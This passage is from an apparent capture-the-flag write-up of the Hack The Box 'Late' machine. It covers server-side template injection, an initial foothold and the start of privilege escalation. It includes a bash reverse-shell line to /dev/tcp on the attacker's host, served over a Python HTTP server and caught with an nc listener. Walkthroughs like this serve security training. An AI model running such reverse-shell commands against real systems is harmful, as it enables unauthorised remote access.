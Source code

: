 [SSTI Reference](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/Server%20Side%20Template%20Injection)

<center>
<img src = "https://github.com/enum-more/obsidian_vault/raw/main/htb/LINUX/late/assets/images/ssti1.png" />
</center>

From the above png, we got the id of the machine

```html
<p>uid=1000(svc_acc) gid=1000(svc_acc) groups=1000(svc_acc)</p>
```

## Initial Foothold

Next, we are sending a file ```index.html``` with customised code 

```shell
root@rE3oN:~/enum-more/obsidian_vault/htb/LINUX/late/results/10.10.11.156/exploit# cat index.html
bash -i >& /dev/tcp/10.10.16.41/9001 0>&1
```

<center>
<img src = "https://github.com/enum-more/obsidian_vault/raw/main/htb/LINUX/late/assets/images/ssti2.png" />
</center>

<center>
<img src = "https://github.com/enum-more/obsidian_vault/raw/main/htb/LINUX/late/assets/images/web2.png" />
</center>

```shell
root@rE3oN:~/enum-more/obsidian_vault/htb/LINUX/late/results/10.10.11.156/exploit# python3 -m http.server 80
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
10.10.11.156 - - [06/Aug/2022 22:53:49] "GET / HTTP/1.1" 200 -
```

Now running a listener to get shell back,

```shell
root@rE3oN:~/enum-more/obsidian_vault/htb/LINUX/late/results/10.10.11.156/exploit# rlwrap nc -lvnp 9001

got some results
```

Later from ```svc_acc``` got the user flag....

## Privilege Escalation

Tried  ```linpeas``` tool and got some reallly cool stuffs to modify for privilege escalation and ```ssh-alert.sh``` file as root access.

```shell
svc_acc@late:/usr/local/sbin$ ls
ssh-alert.sh
```
